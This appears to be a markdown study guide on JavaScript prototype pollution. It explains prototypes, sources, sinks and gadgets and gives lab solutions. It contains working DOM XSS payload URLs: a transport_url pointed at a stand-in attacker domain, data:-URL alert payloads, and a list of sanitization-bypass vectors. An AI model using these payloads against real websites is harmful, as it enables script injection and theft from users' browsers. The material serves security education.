



## What is prototype pollution?

Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects. 
### What is an object in JavaScript?

A JavaScript object is essentially just a collection of key:value pairs known as "properties". For example, the following object could represent a user:
```js
const user =  {
    username: "wiener",
    userId: 01234,
    isAdmin: false
}
```
You can access the properties of an object by using either dot notation or bracket notation to refer to their respective keys:
```js
user.username     // "wiener"
user['userId']    // 01234 
```


As well as data, properties may also contain executable functions. In this case, the function is known as a "method".
```js
const user =  {
    username: "wiener",
    userId: 01234,
    exampleMethod: function(){
        // do something
    }
}
```
The example above is an "object literal", which means it was created using curly brace syntax to explicitly declare its properties and their initial values. However, it's important to understand that almost everything in JavaScript is an object under the hood. Throughout these materials, the term "object" refers to all entities, not just object literals. 
### What is a prototype in JavaScript?

Every object in JavaScript is linked to another object of some kind, known as its prototype. By default, JavaScript automatically assigns new objects one of its built-in prototypes. For example, strings are automatically assigned the built-in String.prototype. You can see some more examples of these global prototypes below:
```js
let myObject = {};
Object.getPrototypeOf(myObject);    // Object.prototype

let myString = "";
Object.getPrototypeOf(myString);    // String.prototype

let myArray = [];
Object.getPrototypeOf(myArray);	    // Array.prototype

let myNumber = 1;
Object.getPrototypeOf(myNumber);    // Number.prototype
```
Objects automatically inherit all of the properties of their assigned prototype, unless they already have their own property with the same key. This enables developers to create new objects that can reuse the properties and methods of existing objects.

The built-in prototypes provide useful properties and methods for working with basic data types. For example, the **String.prototype** object has a **toLowerCase()** method. As a result, all strings automatically have a ready-to-use method for converting them to lowercase. This saves developers having to manually add this behavior to each new string that they create.

### How does object inheritance work in JavaScript?

Whenever you reference a property of an object, the JavaScript engine first tries to access this directly on the object itself. If the object doesn't have a matching property, the JavaScript engine looks for it on the object's prototype instead. Given the following objects, this enables you to reference **myObject.propertyA**

existingObject
 ├── propertyA
 ├── propertyB
 ↓ (is prototype of)
myObject
 ├── propertyC

You can use your browser console to see this behavior in action. First, create a completely empty object:
```
let myObject = {};
```
Next, type myObject followed by a dot. Notice that the console prompts you to select from a list of properties and methods: 


Even though there are no properties or methods defined for the object itself, it has inherited some from the built-in `Object.prototype`. 

### The prototype chain

Note that an object's prototype is just another object, which should also have its own prototype, and so on. As virtually everything in JavaScript is an object under the hood, this chain ultimately leads back to the top-level Object.prototype, whose prototype is simply null. 



Crucially, objects inherit properties not just from their immediate prototype, but from all objects above them in the prototype chain. In the example above, this means that the username object has access to the properties and methods of both `String.prototype` and `Object.prototype`. 
### Accessing an object's prototype using `__proto__`

Every object has a special property that you can use to access its prototype. Although this doesn't have a formally standardized name, `__proto__` is the de facto standard used by most browsers. If you're familiar with object-oriented languages, this property serves as both a getter and setter for the object's prototype. This means you can use it to read the prototype and its properties, and even reassign them if necessary.

As with any property, you can access `__proto__` using either bracket or dot notation:
```js
username.__proto__
```
```
username['__proto__']
```
You can even chain references to `__proto__` to work your way up the prototype chain:
```js
username.__proto__                        // String.prototype
username.__proto__.__proto__              // Object.prototype
username.__proto__.__proto__.__proto__    // null 
```

### Modifying prototypes

Although it's generally considered bad practice, it is possible to modify JavaScript's built-in prototypes just like any other object. This means developers can customize or override the behavior of built-in methods, and even add new methods to perform useful operations.

For example, modern JavaScript provides the **trim()** method for strings, which enables you to easily remove any leading or trailing whitespace. Before this built-in method was introduced, developers sometimes added their own custom implementation of this behavior to the String.prototype object by doing something like this:
```js
String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}
```
Thanks to the prototypal inheritance, all strings would then have access to this method:
```js
let searchTerm = "  example ";
searchTerm.removeWhitespace();    // "example" 
```
## How do prototype pollution vulnerabilities arise?

Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties.

Due to the special meaning of `__proto__` in a JavaScript context, the merge operation may assign the nested properties to the object's prototype instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way.

It's possible to pollute any prototype object, but this most commonly occurs with the built-in global **Object.prototype**.


Successful exploitation of prototype pollution requires the following key components:

-    A prototype pollution source - This is any input that enables you to poison prototype objects with arbitrary properties.

-    A sink - In other words, a JavaScript function or DOM element that enables arbitrary code execution.

-    An exploitable gadget - This is any property that is passed into a sink without proper filtering or sanitization.

## Prototype pollution sources

A prototype pollution source is any user-controllable input that enables you to add arbitrary properties to prototype objects. The most common sources are as follows:

-    The URL via either the query or fragment string (hash)

-    JSON-based input

-    Web messages

### Prototype pollution via the URL

Consider the following URL, which contains an attacker-constructed query string:
```
https://vulnerable-website.com/?__proto__[evilProperty]=payload
```
When breaking the query string down into key:value pairs, a URL parser may interpret `__proto__` as an arbitrary string. But let's look at what happens if these keys and values are subsequently merged into an existing object as properties.

You might think that the `__proto__` property, along with its nested **evilProperty**, will just be added to the target object as follows:
```
{
    existingProperty1: 'foo',
    existingProperty2: 'bar',
    __proto__: {
        evilProperty: 'payload'
    }
}
```
However, this isn't the case. At some point, the recursive merge operation may assign the value of **evilProperty** using a statement equivalent to the following:
```
targetObject.__proto__.evilProperty = 'payload';
```
During this assignment, the JavaScript engine treats `__proto__` as a getter for the prototype. As a result, **evilProperty** is assigned to the returned prototype object rather than the target object itself. Assuming that the target object uses the default Object.prototype, all objects in the JavaScript runtime will now inherit **evilProperty**, unless they already have a property of their own with a matching key.

In practice, injecting a property called **evilProperty** is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries.

### Prototype pollution via JSON input

User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. Interestingly, `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`. This provides another potential vector for prototype pollution.

Let's say an attacker injects the following malicious JSON, for example, via a web message:
```json
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```
If this is converted into a JavaScript object via the `JSON.parse()` method, the resulting object will in fact have a property with the key `__proto__`:
```js
const objectLiteral = {__proto__: {evilProperty: 'payload'}};
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');

objectLiteral.hasOwnProperty('__proto__');     // false
objectFromJson.hasOwnProperty('__proto__');    // true
```
If the object created via `JSON.parse()` is subsequently merged into an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the previous URL-based example.

### Prototype pollution sinks

A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on DOM XSS.

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.
### Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

-    Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.

-    Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. Robust websites may also explicitly set the prototype of the object to null, which ensures that it doesn't inherit any properties at all.

### Example of a prototype pollution gadget

Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:
```js
let transport_url = config.transport_url || defaults.transport_url;
```
Now imagine the library code uses this transport_url to add a script reference to the page:
```js
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```
If the website's developers haven't set a transport_url property on their config object, this is a potential gadget. In cases where an attacker is able to pollute the global Object.prototype with their own transport_url property, this will be inherited by the config object and, therefore, set as the src for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:
```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```
By providing a data: URL, an attacker could also directly embed an XSS payload within the query string as follows:
```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
Note that the trailing // in this example is simply to comment out the hardcoded /example.js suffix.

## Client-side prototype pollution

Finding prototype pollution sources manually is largely a case of trial and error. In short, you need to try different ways of adding an arbitrary property to Object.prototype until you find a source that works.

When testing for client-side vulnerabilities, this involves the following high-level steps:

-    Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example:
```
vulnerable-website.com/?__proto__[foo]=bar
```
-    In your browser console, inspect Object.prototype to see if you have successfully polluted it with your arbitrary property:
```js
Object.prototype.foo
// "bar" indicates that you have successfully polluted the prototype
// undefined indicates that the attack was not successful
```
-    If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa:
```
vulnerable-website.com/?__proto__.foo=bar
```
Repeat this process for each potential source.

### Finding client-side prototype pollution sources using DOM Invader

As you can see, finding prototype pollution sources manually can be a fairly tedious process. Instead, we recommend using DOM Invader, which comes preinstalled with Burp's built-in browser. DOM Invader is able to automatically test for prototype pollution sources as you browse, which can save you a considerable amount of time and effort.

### Finding client-side prototype pollution gadgets manually

Once you've identified a source that lets you add arbitrary properties to the global Object.prototype, the next step is to find a suitable gadget that you can use to craft an exploit. In practice, we recommend using DOM Invader to do this, but it's useful to look at the manual process as it may help solidify your understanding of the vulnerability.

-    Look through the source code and identify any properties that are used by the application or any libraries that it imports.

-    In Burp, enable response interception (Proxy > Options > Intercept server responses) and intercept the response containing the JavaScript that you want to test.

 -   Add a debugger statement at the start of the script, then forward any remaining requests and responses.

-    In Burp's browser, go to the page on which the target script is loaded. The debugger statement pauses execution of the script.

-    While the script is still paused, switch to the console and enter the following command, replacing YOUR-PROPERTY with one of the properties that you think is a potential gadget:
```js
Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
```
-    The property is added to the global Object.prototype, and the browser will log a stack trace to the console whenever it is accessed.

-    Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.

 -   Expand the stack trace and use the provided link to jump to the line of code where the property is being read.

- Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as innerHTML or eval().

 -   Repeat this process for any properties that you think are potential gadgets.

### Finding client-side prototype pollution gadgets using DOM Invader

As you can see from the previous steps, manually identifying prototype pollution gadgets in the wild can be a laborious task. Given that websites often rely on a number of third-party libraries, this may involve reading through thousands of lines of minified or obfuscated code, which makes things even trickier. DOM Invader can automatically scan for gadgets on your behalf and can even generate a DOM XSS proof-of-concept in some cases. This means you can find exploits on real-world sites in a matter of seconds rather than hours.

### Lab: DOM XSS via client-side prototype pollution

This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

-    Find a source that you can use to add arbitrary properties to the global Object.prototype.

-    Identify a gadget property that allows you to execute arbitrary JavaScript.

-    Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you. 

Injectable query: `/?__proto__[foo]=bar`



Observe that it now has a foo property with the value bar.

searchLogger.js:
```js
if(config.transport_url) {
    let script = document.createElement('script');
    script.src = config.transport_url;
    document.body.appendChild(script);
}
```

Final payload:
```
/?__proto__[transport_url]=data:,alert(1);
```
We pollute **Object.prototype** so that **config.transport_url** inherits `data:,alert(1);`

The script dynamically loads this value as src, execute the payload.

`data:,alert(1);` is a data URL that executes alert(1) when loaded as a \<script> source.
### Lab: DOM XSS via an alternative prototype pollution vector

This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

 -   Find a source that you can use to add arbitrary properties to the global Object.prototype.

  -  Identify a gadget property that allows you to execute arbitrary JavaScript.

   - Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you. 

Prototype pollution vector:
```
/?__proto__.foo=bar
```

**searchLoggerAlternatve.js**

```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

Final payload:
```
/?__proto__.sequence=alert(1)-
```
### Prototype pollution via the constructor

So far, we've looked exclusively at how you can get a reference to prototype objects via the special `__proto__` accessor property. As this is the classic technique for prototype pollution, a common defense is to strip any properties with the key `__proto__` from user-controlled objects before merging them. This approach is flawed as there are alternative ways to reference Object.prototype without relying on the `__proto__` string at all.

Unless its prototype is set to null, every JavaScript object has a constructor property, which contains a reference to the constructor function that was used to create it. For example, you can create a new object either using literal syntax or by explicitly invoking the `Object()` constructor as follows:
```js
let myObjectLiteral = {};
let myObject = new Object();
```
You can then reference the `Object()` constructor via the built-in constructor property:
```js
myObjectLiteral.constructor            // function Object(){...}
myObject.constructor                   // function Object(){...}
```
Remember that functions are also just objects under the hood. Each constructor function has a prototype property, which points to the prototype that will be assigned to any objects that are created by this constructor. As a result, you can also access any object's prototype as follows:
```js
myObject.constructor.prototype        // Object.prototype
myString.constructor.prototype        // String.prototype
myArray.constructor.prototype         // Array.prototype
```
As `myObject.constructor.prototype` is equivalent to `myObject`.`__proto__`, this provides an alternative vector for prototype pollution.
### Bypassing flawed key sanitization

An obvious way in which websites attempt to prevent prototype pollution is by sanitizing property keys before merging them into an existing object. However, a common mistake is failing to recursively sanitize the input string. For example, consider the following URL:
```
vulnerable-website.com/?__pro__proto__to__.gadget=payload
```
If the sanitization process just strips the string `__proto__` without repeating this process more than once, this would result in the following URL, which is a potentially valid prototype pollution source:
```
vulnerable-website.com/?__proto__.gadget=payload 
```
### Lab: Client-side prototype pollution via flawed sanitization

This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

-    Find a source that you can use to add arbitrary properties to the global Object.prototype.

-    Identify a gadget property that allows you to execute arbitrary JavaScript.

 -   Combine these to call alert().

In this lab, vary payloads were tested
```
/?__proto__.foo=bar
/?__proto__[foo]=bar
/?constructor.prototype.foo=bar
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar
/?constconstructorructor[protoprototypetype][foo]=bar
/?constconstructorructor.protoprototypetype.foo=bar
```
Final payload:
```
/?__pro__proto__to__[transport_url]=data:,alert(document.domain);
```
### Prototype pollution in external libraries

As we've touched on already, prototype pollution gadgets may occur in third-party libraries that are imported by the application. In this case, we strongly recommend using DOM Invader's prototype pollution features to identify sources and gadgets. Not only is this much quicker, it also ensures you won't miss vulnerabilities that would otherwise be extremely tricky to notice.

### Lab: Client-side prototype pollution in third-party libraries

This lab is vulnerable to DOM XSS via client-side prototype pollution. This is due to a gadget in a third-party library, which is easy to miss due to the minified source code. Although it's technically possible to solve this lab manually, we recommend using DOM Invader as this will save you a considerable amount of time and effort.

To solve the lab:

-    Use DOM Invader to identify a prototype pollution and a gadget for DOM XSS.

-    Use the provided exploit server to deliver a payload to the victim that calls alert(document.cookie) in their browser.
